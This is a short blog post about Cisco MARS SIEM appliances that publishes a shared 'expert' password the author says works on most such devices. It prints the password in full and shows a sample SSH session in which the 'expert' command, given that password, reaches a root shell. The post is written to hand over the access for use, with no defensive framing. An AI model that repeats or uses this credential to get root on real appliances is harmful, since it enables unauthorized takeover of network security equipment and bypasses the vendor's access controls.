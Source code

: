 ```yaml
---
layout: post
title: Cisco MARS SIEM expert password
date: 2015-09-06 11:58
comments: true
categories:
- cisco
- scripts
- mars
---
```

The Cisco MARS SIEM devices are built on a linux OS. It's possible to get to that linux shell but Cisco tries to keep that method private. I've learned over time that most MARS devices have theh same expert password which allows access to the root shell.

Expert password: `x3*Gd=y/Dq98`

Here is an example on how to use the password.

```
[linuxbox ~]$  ssh pnadmin@10.10.10.10
pnadmin@10.10.10.10's password:
Last login: Sun Aug 30 10:28:03 2015 from 10.10.10.200

  CS MARS - Mitigation and Response System

    ? for list of commands

[pnadmin]$ expert
Password: x3*Gd=y/Dq98
[root@mars-lc01 bin]# pwd
/opt/janus/release/bin
[root@mars-lc01 bin]#
```